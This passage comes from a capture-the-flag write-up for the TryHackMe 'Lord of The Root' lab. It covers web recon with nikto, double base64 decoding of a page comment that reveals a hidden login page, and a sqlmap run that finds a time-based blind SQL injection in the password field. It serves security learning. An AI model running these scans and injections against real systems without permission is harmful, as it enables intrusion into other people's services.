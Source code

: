 ```bash
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
```

Just checking out the web page itself, we see at the website's root we just get a static image displayed:


![root](https://user-images.githubusercontent.com/32188816/83321423-d54b2380-a20c-11ea-9adb-4f130668a1a2.png)


Following a typical recon check list for finding low-hanging fruit is to view the source of the page, which shows us nothing useful other than the `/images` endpoint we found from gobuster and nikto. Continuing the same process but for the `/images` directory. Here we have three files that I downloaded and spent some time doing stegonography analysis on, which turned out to be a dead end. Moving on to the next endpoint in the list we have the default Apache icons README page at `/icons/README`, but what is on the `/icons/` endpint? Taking a look we find nothing but another photo:


![icons](https://user-images.githubusercontent.com/32188816/83321444-f01d9800-a20c-11ea-8ed9-6d65199c47fe.png)


What about the page source? In the source we find a comment with what looks like base64 encoded data:


![icons_source](https://user-images.githubusercontent.com/32188816/83321466-25c28100-a20d-11ea-8e2f-d5c5abdb9b55.png)


Trying to base64 decode this data gives us a hint that we are getting closer, and after decoding this comment twice we find a new endpoint `/978345210/index.php`:

```bash
jeffrowell@kali:~/Documents/TryHackMe/Lord of The Root$ echo 'THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh' | base64 -d
Lzk3ODM0NTIxMC9pbmRleC5waHA= Closer!
jeffrowell@kali:~/Documents/TryHackMe/Lord of The Root$ echo 'Lzk3ODM0NTIxMC9pbmRleC5waHA=' | base64 -d
/978345210/index.php
jeffrowell@kali:~/Documents/TryHackMe/Lord of The Root$
```

Now navigating to `/978345210/index.php` gives us a login page:


![login](https://user-images.githubusercontent.com/32188816/83321519-949fda00-a20d-11ea-9af1-2c3b8a72503a.png)


### 5 --  Can you some how obtain user credentials
First thing that comes to mind is to throw sqlmap or hydra at the web login form to fuzz for an SQLi or a brute force login. Starting with sqlmap, it was able to find that the `password` parameter is vulnerable to an SQLi:

```bash
jeffrowell@kali:~/Documents/TryHackMe/Lord of The Root$ sqlmap -u http://$IP:1337/978345210/index.php --forms --risk=3 --level=5 -p username,password --dbs
                                                            .
                                                            .
                                                            .
                                                            .
                                                            .
                                                            .
                                                            .
POST parameter 'password' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 11876 HTTP(s) requests:
---
Parameter: password (POST)
    Type: time-based blind
```